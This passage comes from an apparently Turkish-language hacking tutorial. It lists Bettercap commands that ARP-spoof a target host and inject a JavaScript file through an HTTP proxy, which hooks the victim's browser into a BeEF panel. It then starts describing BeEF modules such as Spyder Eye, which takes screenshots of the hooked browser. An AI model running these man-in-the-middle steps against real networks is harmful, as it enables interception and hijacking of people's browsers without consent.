 ![Custom Js](./assets/49-custom-js.png)

Ardından [Bettercap](#bettercap) sayesinde hedefimize karşı ARP spoof yapıyoruz ve MITM taktiği ile ona Masaüstüne oluşturduğumuz `my_code.js` adlı kodu enjekte ediyoruz. `/root/Desktop/my_code.js` dizini ben Desktop altında my_code.js adında dosya oluşturduğum için bu dizilimi aldı. Siz başka dizin altında başka isimde dosya oluşturursanız sizin dizin değişiklik gösterebilecektir.
```
» set arp.spoof.fullduplex true
» set arp.spoof.targets 192.168.1.218
» set http.proxy.script /root/Desktop/my_code.js
» http.proxy on
» arp.spoof on
```

Tekrar Beef Panel'e baktığımızda kullanıcının oltaya takılmış olduğunu göreceğiz. Unutmayalım bu taktik de **HTTP** sitelerde işe yarayacaktır. **HTTPS** sitelerde çalıştırmak için [ilgili](#https-kırmak) bölüme bakabiliriz.

![Bettercap ve Beef](./assets/50-beef-custom-js.png)

## Beef Saldırılarından Bazıları

### Ekran Görüntüsü Çalmak
Beef Panel'de **Commands** sekmesi altında işimize yarayacak bir çok event mevcuttur. **Spyder Eye** hedef browser'dan ScreenShot almamızı sağlar. <br>
Yeşil Event'lar kesin çalışır anlamına gelmektedir <br>
Beyaz Event'lar muhtemelen çalışır anlamına gelmektedir <br>
Turuncu Event'lar düşük bir ihtimalle çalışır anlamındadır <br>
Kırmızı Event'lar ise denemeye değer anlamına gelmektedir <br>
